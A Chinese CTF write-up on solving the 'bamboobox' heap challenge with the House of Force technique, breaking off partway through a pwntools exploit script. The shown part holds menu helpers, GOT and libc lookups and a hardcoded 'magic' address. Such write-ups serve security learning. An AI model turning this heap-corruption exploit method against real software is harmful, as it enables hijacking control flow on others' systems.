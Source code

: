 实现比较难的地方是计算分配的大小。    
```c
//MALLOC_ALIGN_MASK = 2 * SIZE_SZ -1
// (The minimumsize is 16 bytes on most 32bits systems, and 24 or 32 bytes on 64bits systems.)
#define request2size(req)                                                      
(((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE）? 
        MINSIZE: 
        ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) &~MALLOC_ALIGN_MASK)
```

详见ctfwiki。

## 解法 

这道题用hof的话要分配三次内存。   
第一次是用来控制top_chunk的size，   
第二次是用来将top_chunk指向目标位置，  
第三次是用来在目标位置写入数据。   

第一次分配的chunk大小须大于`MINSIZE`，   
第二次这个目标位置：
- 我一开始是接着用atoi的got表地址的。但是题目虽然没有开PIE，我的环境是开了ASLR的，也就是说无法确定topchunk的具体位置，所以需要设置
    ```python
    sh = process('./bamboobox',aslr=0)
    ```
- 本地这个样子是可以，但是我觉得打远程也这样就会很悬。
- 因为程序一开始设置了两个函数指针存在堆里面，分别在开始和结束的时候调用，而这个地方离top_chunk的距离是可以计算的，所以这个地方是可以覆盖的。system是不可能了，但是程序有一个magic函数。

    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/17/20190717123925_zsM2M.png) 

## exp
```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c']
sh = process('./bamboobox')
elf = ELF('./bamboobox')
libc = elf.libc

atoi_libc = libc.symbols['atoi']
atoi_got = elf.got['atoi']
system_libc = libc.symbols['system']
notelist_addr = 0x6020C8
magic = 0x0400D49

def add_note(length,content):
    sh.sendlineafter('choice:','2')
    sh.sendlineafter('name:',str(length))
    sh.sendafter('item:',content)

def show_note(idx):
    sh.sendlineafter('choice:','1')
    sh.recvuntil(str(idx)+' :')
    addr = u64(sh.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    return addr

def change_note(idx,length,content):
    sh.sendlineafter('choice:','3')
    sh.sendlineafter('item:',str(idx))
    sh.sendlineafter('name:',str(length))
    sh.sendafter('item:',content)

```